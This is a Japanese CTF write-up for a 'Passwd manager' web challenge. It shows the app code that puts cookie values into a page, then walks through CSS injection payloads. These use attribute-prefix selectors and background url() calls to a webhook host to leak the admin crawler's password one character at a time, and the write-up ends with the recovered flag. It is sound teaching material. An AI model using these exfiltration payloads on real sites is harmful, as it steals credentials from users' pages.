




# Passwd manager

パスワード管理アプリを作りました！  
なんと、CSSがカスタマイズできます！  

(url)  
flag format: `/^flag{[a-z]*}$/`  

## 配布ファイル

[distfiles](../distfiles)

## writeup

アクセスすると以下のような感じ。



上からユーザ名とパスワードを保存する欄、CSSをカスタマイズする欄、クローラに提出する欄。

exampleを押すと、CSSの例が入力される。



ユーザ名に`y0d3n`, パスワードに`password`を入力したとき、  
自分のCookieは`"user=y0d3n; passwd=password"`。

```python
user = request.cookies.get('user', None)
passwd = request.cookies.get('passwd', None)

return render_template("index.html", css=css, user="" if user == None else user , passwd="" if passwd == None else passwd)
```

```html
<input type="text" name="user" placeholder="Your name" value="{{ user }}">
<input type="text" name="passwd" placeholder="Password" value="{{ passwd }}">
```

Cookieからそれぞれ抽出してユーザ名とパスワードにセットしてることがわかる。

クローラのCookieを見てみると、パスワードにflagが設定されている。

```json
[
    {
        "name": "user",
        "value": "admin",
        "domain": "python",
        "path": "/"
    },
    {
        "name":"passwd",
        "value": "flag{***CENSORED***}",
        "domain": "python",
        "path": "/"
    }
]
```

クローラがCSSを見に行った時に表示されているパスワードを盗めばflagが手に入る。

CSSを編集できるとなると、CSS injectionが有効そう。
適当にググって自分で試してみる。

```css
input[value^=y0d3n] {background: url([url]?value=y0d3n);}
```

> `^=`は前方一致。`value`が`y0d3n`から始まる`input`に、CSSが反映される。

このCSSを入力するとurlにアクセスがくる。(自分はサーバに<https://webhook.site/>を使用しています)



`flag{`に変えてadminに提出する。

> ※ `{`はエスケープする必要があるので、`\{`になる

```css
input[value^=flag\{] {background: url([url]?value=flag{);}
```



`flag\{a`を提出してもアクセスが来ないが、`b`, `c`...と試しているうちに`flag\{i`を提出するとアクセスが来る。  
この要領で一文字ずつ特定していく。

> 問題文からflagのフォーマットが`/^flag{[a-z]*}$/`なのがわかるので、大文字と数字は試さなくて良い。

```txt
flag\{
flag\{i
flag\{it
flag\{iti
flag\{itis
  :
flag\{itiscssinjection\}
```

`flag{itiscssinjection}`
